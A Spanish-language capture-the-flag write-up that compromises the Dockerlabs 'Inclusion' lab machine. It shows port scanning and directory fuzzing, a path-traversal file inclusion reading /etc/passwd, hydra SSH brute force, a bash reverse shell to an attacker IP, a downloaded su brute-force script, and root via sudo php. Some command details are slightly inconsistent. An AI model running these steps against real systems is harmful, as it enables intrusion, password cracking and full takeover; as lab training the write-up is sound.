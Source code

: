 # Máquina Inclusion

***

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03cf7254de54aecd2a16586b8af552dc (ECDSA)
|_  256 13bbc212f59730a149c7f9d0bad05ef7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos algo más de info sobre el puerto 80 y 22. Vamos a echarle un vistazo a la web que corre por el puerto 80.

![Pasted image 20240414234421](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ee73b905-00c4-41ff-ba59-5f00da5969b2)

Es la web por defecto de apache, así que aplicamos **Fuzzing** con **gobuster**.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
-------------------------------------------------------------------------
/icons/               (Status: 403) [Size: 275]
/shop/                (Status: 200) [Size: 1112]
/server-status/       (Status: 403) [Size: 275] 
```

Encontramos un directorio **/shop**, accedemos, y nos encontramos con una pista.

![Pasted image 20240415001358](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/24b5bc57-55da-4e87-a4cd-21e6cc1859ba)

_**"Error de Sistema: ($\_GET\['archivo']");**_

Esto nos dice que se está usando un parámetro llamado **archivo** en la url para pasarle un valor e incluir un archivo en la web. Esto puede ser vulnerable ante un **LFI** (Local File Inclusion)

***

## Explotación

Tras varias pruebas, conseguimos leer archivos de la máquina mediante un **Path traversal**

```
http://172.17.0.2/shop/?archivo=../../../../../../etc/passwd
```

![Pasted image 20240415001300](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7d86c4b-6b6b-4ebc-902b-4650a6d9a1ad)

Teniendo un **LFI** podemos tratar de derivarlo a un **RCE** (Remote Code Execution) mediante un **Log Poisoning** o envenenamiento de los logs del sistema. Consistirá en inyectar código malicioso mediante peticiones al sistema, que posteriormente llegue a ser interpretado por medio del **LFI**.

![Pasted image 20240415002355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a7ccb2b-005d-4361-a578-9e693ce78de5)

Tenemos dos usuarios, **manchi** y **seller**. En este punto he intentado listar logs de apache, de ssh, claves privadas de estos dos usuarios para ssh, pero nada ha dado resultado. Por lo tanto, he hecho fuerza bruta al protocolo **ssh** con **hydra** para los dos usuarios. Y el usuario **manchi**, tenía una contraseña fácil, por lo tanto hemos conseguido adivinarla con **hydra**.

```shell
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
----------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
```

Credenciales -> **manchi:lovely** Accedemos por **ssh**.

```
ssh manchi@172.17.0.2
```

***

### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.39/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

***

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Revisamos directorio home de manchi, capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia el usuario **seller** desde la propia máquina. Nos transferiremos también el diccionario **rockyou**.

Nos descargamos el script.sh del siguiente repositorio en la **máquina atacante**-> [Script de fuerza bruta](https://github.com/Maalfer/Sudo\_BruteForce/blob/main/Linux-Su-Force.sh)

```shell
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
```

Probamos a transferirlo con **wget** o **curl** pero no es posible porque no están instalados. Los transferiremos utilizando **SCP** (Secure Copy) a la máquina con la dirección IP 172.17.0.2 a través de SSH.

Desde la máquina atacante indicamos la ruta del archivo a tranferir y la ruta de la máquina víctima donde se alojará:

```shell
scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt
```

Le daremos permisos de ejecución y lo ejecutaremos hacia el usuario \*_seller_:

```shell
./Linux-Su-Force.sh seller rockyou.txt 
-----------------------------------------
Contraseña encontrada para el usuario seller: qwerty
```

Hemos encontrado la contraseña! -> **qwerty** Migramos al usuario **seller**:

```shell
su seller
```

Usaremos "**sudo -l**" para ver si el usuario **seller** puede ejecutar algún binario con permisos privilegiados.

```shell
sudo -l
--------------------------------------
 (ALL) NOPASSWD: /usr/bin/php
```

Puede ejecutar **php**. Podemos abusar de este con los siguiente comandos:

```shell
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

Si no sabemos como abusar de algún binario o lo desconocemos, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximo!
